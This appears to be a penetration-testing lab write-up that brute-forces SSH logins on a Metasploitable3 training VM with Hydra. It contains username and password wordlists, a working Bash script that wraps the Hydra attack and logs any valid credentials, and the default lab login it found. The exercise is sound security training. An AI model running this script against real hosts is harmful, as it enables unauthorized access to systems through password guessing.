 # Phase 1 - Task 1.2: Automate SSH Brute-Force Using Hydra

## Objective
The objective of this task is to automate the SSH brute-force process using a custom Bash script with Hydra (Hydra also known as THC-Hydra is a fast and flexible password-cracking tool used in ethical hacking and penetration testing). This script attempts to find valid login credentials by testing multiple username and password combinations, and logs successful attempts into an output file.

---

## 🖥️ Setup

- **Attacker Machine:** Kali Linux (UTM)
- **Victim Machine:** Metasploitable3 (UTM)
- **Target IP Address:** `192.168.64.7`
- **Target Port:** `22` (default)

### users.txt

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt
```text
password
123456
toor
vagrant
aishapass
testpass
```

---

## Custom Script

### File: script.sh
```text
#!/bin/bash

# Define the target IP address and port
TARGET_IP="192.168.64.7"  # target IP
TARGET_PORT=22 # target PORT

# Define the path to the username and password files
USER_LIST="users.txt"
PASSWORD_LIST="pass.txt"

# Output file to store valid credentials
OUTPUT_FILE="valid_credentials.txt"

# Check if Hydra is installed
if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Please install it and try again."
    exit 1
fi

# Run Hydra to brute-force SSH credentials
echo "Starting brute force attack with Hydra..."
hydra -L "$USER_LIST" -P "$PASSWORD_LIST" ssh://$TARGET_IP -s $TARGET_PORT -o $OUTPUT_FILE

# Check if valid credentials were found
if [ -s "$OUTPUT_FILE" ]; then
    echo "Brute force attack completed. Valid credentials found:"
    cat "$OUTPUT_FILE"
else
    echo "No valid credentials found."
fi
```

### add the script using:
```text
nano script.sh
```

![the Custom Script](screanshots/customScript.png)

---

## Make the script executable
```text
chmod +x script.sh
```
![script executable](screanshots/scriptExecutable.png) 

---

## Result

### Execute the script
```text
./script.sh
```
![Execute script](screanshots/executeScript.png) 

### Hydra successfully completed the brute-force attack and identified valid SSH credentials for the target system.

### This confirms that the target system at 192.168.64.7 is accessible over SSH using the credentials:

* Username: vagrant
* Password: vagrant





















